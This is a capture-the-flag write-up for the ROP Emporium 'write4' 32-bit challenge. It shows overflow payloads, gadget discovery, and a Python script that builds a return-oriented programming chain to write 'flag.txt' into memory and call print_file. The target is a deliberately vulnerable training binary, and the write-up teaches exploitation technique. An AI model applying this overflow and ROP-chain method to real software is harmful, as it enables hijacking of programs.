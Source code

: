 # write4
The challenge is available [here](https://ropemporium.com/challenge/write4.html).

## Black-Box Test
Like in all the challenges so far, we will also conduct a test now to discover the behavior of the software. Afterwards, we will find that the return address index is the same as in the previous challenges.

```
./write432
```
![](./0.png)
```
perl -e 'print "X"x44 . "\xef\xbe\xad\xde"' | ./write432
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## In-depth research
I assume that anyone reading this solution has already read the instructions for the challenge. We will find the address of the `print_file` function in the next command.

```
rabin2 -i write432
```
![](./3.png)

Additionally, we will also find the address of the regular helper function.

```
rabin2 -qs write432 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

Our goal is to make the call `print_file("flag.txt")`. Is the string "flag.txt" present in the binary? The instructions state that it is not. Let's verify this.

```
rabin2 -z write432
```
![](./5.png)

Indeed, there are no helpful strings. Let's take a look at the `usefulFunction`.

```
gdb write432
```
```
set disassembly-flavor intel
```
```
disas usefulFunction
```
![](./6.png)

To summarize, the `usefulFunction` calls `print_file` with one parameter on the stack. This parameter is the address of the string `"nonexistent"` from the previous image (you can also print it out to confirm). Therefore, `usefulFunction` executes `print_file("nonexistent")`.

To verify this in the best way possible, let's call `usefulFunction`. So let's exit the debugger (with the command `q`) and run the next command.

```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./7.png)

Okay, let's try again after creating a file named `nonexistent`.

```
echo ABCD > nonexistent
```
```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./8.png)

Indeed, the file was printed. Now, let's focus on the main issue of the current challenge, which is the absence of the string "flag.txt". To address this, we need to push parts of the string onto the stack and place it somewhere in memory.

This means we need to look for three things:
* a writable memory location
* a gadget that reads bytes from the stack to a register
* and a gadget that writes from a register to memory.

We'll start by searching for a writable memory location.

```
readelf -S write432
```
![](./9.png)

So, the `.data` section looks like a good candidate. It's writable, and its size is 8 bytes, which is just enough for our needs.

After some research and searching, I've also found two gadgets that are perfectly suited for our purpose.

```
python3 ~/ropper/Ropper.py
```
```
file write432
```
```
search pop
```
```
search /1/ mov [%], %
```
![](./10.png)

The combination of these two gadgets is simply perfect. The `edi` register will be used for the writable memory address, as derived from the `mov-gadget`. So, the `ebp` register will hold parts of the string "flag.txt". According to the `pop-gadget`, we learn that in the ROP chain, we will first write the address, followed by the relevant part of the string.

Now we have all the information we need.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop2registers | Gadget          | 0x080485aa | pop edi; pop ebp; ret;                                            |
| mov2memory    | Gadget          | 0x08048543 | mov dword ptr [edi], ebp; ret;                                    |

And the next table describes the ROP chain itself:

| No | Chain Link                             |
|----|----------------------------------------|
| 1  | 44 garbage bytes                       |
| 2  | pop2registers, memory4string, "flag"   |
| 3  | mov2memory                             |
| 4  | pop2registers, memory4string+4, ".txt" |
| 5  | mov2memory                             |
| 6  | print_file, "XXXX", memory4string      |

Where `"XXXX"` is the return address from the `print_file` function, which is not needed at all (it's there just to ensure that the parameter `memory4string` is in the right place on the stack).

All that remains is to build the Python script that creates the ROP chain, and we’re done!

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer  = b"X"*44

print_file          = little_endian(0x080483d0)

memory4string_part1 = little_endian(0x0804a018)
memory4string_part2 = little_endian(0x0804a018+4) # That's fine because the addition does not create a null byte.

pop2registers       = little_endian(0x080485aa)
mov2memory          = little_endian(0x08048543)

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += pop2registers + memory4string_part1 + b"flag"
ROP_Chain += mov2memory
ROP_Chain += pop2registers + memory4string_part2 + b".txt"
ROP_Chain += mov2memory
ROP_Chain += print_file + b"XXXX" + memory4string_part1

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./write432
```
